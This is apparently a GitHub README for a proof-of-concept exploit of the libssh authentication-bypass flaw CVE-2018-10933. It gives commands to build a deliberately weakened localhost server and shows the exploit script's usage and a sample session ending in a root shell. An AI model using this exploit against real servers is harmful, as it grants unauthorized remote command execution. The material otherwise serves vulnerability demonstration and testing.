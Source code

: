 # CVE-2018-10933 - libssh Server-side Auth. Bypass
This is a simple Proof of Concept (PoC) to demonstrate successful exploitation
of the authentication-bypass vulnerability as found in the server-side code of
libssh <0.7.6 and <0.8.4. See [Security Advisory (CVE-2018-10933)](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)
for additional information.

## Vulnerable Server POC
In order to execute commands on a vulnerable libssh server, the latter must somehow
allow the SSH request known as `shell channel request`. Most implementations
found in the wild deny this request by checking the internal session's
authentication state. If the programmer insufficiently checked the
authentication states after callbacks, the exploitation **may** be successful.

The [CVE-2018-10933-server.patch](CVE-2018-10933-server.patch) patch removes
checks for the authentication states in the `ssh_server_fork.c` example shipped
with libssh-0.7.4. See below for the patching instructions.

### Patching and building a vulnerable server
```
$ wget https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz
$ tar -xvf libssh-0.7.4.tar.xz
$ cd libssh-0.7.4/
$ cd examples/
$ patch -p0 < CVE-2018-10933-server.patch
$ cd ..
$ mkdir -p build
$ cmake ..
$ make
```

### Running the patched server
Here we're running the patched (and vulnerable) SSH server to listen on
localhost on port tcp/2222:
```
$ cd examples/
$ sudo ./ssh_server_fork -p 2222 127.0.0.1
```

## Exploit
This repository includes a simple [exploit](CVE-2018-10933-SHELL-POC.py) code
written in Python that allow you to pass commands directly to the shell of a
vulnerable libssh server (see above for a vulnerable server implementation).

#### Prerequisites
 * Python 2.7 or 3.4+
 * [Paramiko](http://www.paramiko.org/)

### Features
 * Remote shell (partially interactive)
 * TCP Port Forwarding (experimental/untested)

#### Usage
Use the `--help` command-line parameter to display all available options:
```
$ python3 CVE-2018-10933-SHELL-POC.py --help
usage: CVE-2018-10933-SHELL-POC.py [-h] [--verbose] [-p PORT]
                                   [-L PORT_FORWARDING] [-b BANNER]
                                   hostname

CVE-2018-10933 libssh Auth-Bypass Exploit PoC

positional arguments:
  hostname              server IP address or hostname

optional arguments:
  -h, --help            show this help message and exit
  --verbose             enable verbose output
  -p PORT, --port PORT  port to connect to (default: 2222)
  -L PORT_FORWARDING    enable TCP forwarding for
                        (bind_port:remote_addr:remote_port)
  -b BANNER, --banner BANNER
                        specify client banner to present to the server
```

Bypass authentication and start a shell session on the remote host:
```
$ python CVE-2018-10933-SHELL-POC.py --verbose -p 2222 127.0.0.1
[*] Type 'quit' to exit this command prompt.

$ id
uid=0(root) gid=0(root) groups=0(root),999(docker)
$ quit
```

## Disclaimer
As always, please check your local laws and regulation regarding the use of this
software. Do not use this exploit on a server without the owner's prior consent
and authorization.

## Credits
* The vulnerability has been discovered by Peter Winter-Smith of NCC Group.
* [CVE-2018-10933: libssh: authentication bypass in server code](https://seclists.org/oss-sec/2018/q4/55)
* [SoledaD208's CVE-2018-10933 very simple POC](https://github.com/SoledaD208/CVE-2018-10933)
